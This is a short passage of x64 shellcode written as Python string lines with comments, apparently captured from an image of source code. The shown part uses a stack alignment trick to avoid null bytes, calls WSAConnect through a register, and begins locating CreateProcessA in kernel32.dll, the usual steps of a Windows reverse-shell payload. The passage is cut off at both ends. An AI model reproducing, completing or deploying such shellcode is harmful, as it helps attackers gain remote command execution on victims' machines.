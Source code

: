 ```
        # " sub rsp, 0x88; "                # Make additional space on the stack for alignment (Null Byte)
        # Null byte fix
        " xor rbx, rbx; "                   # Zero out rbx to start fresh
        " add rbx, 0x88FFFFF; "             # Load rbx with a large number
        " shr rbx, 0x14; "                  # Right-shift rbx by 20 bits to get 0x88
        " sub rsp, rbx; "                   # Subtract 0x88 from rsp

        " call r12;"                        # Call WSAConnect using the address stored in R12

        # Find CreateProcessA address in kernel32.dll
        " xor rcx, rcx;"                    # Zero out RCX contents

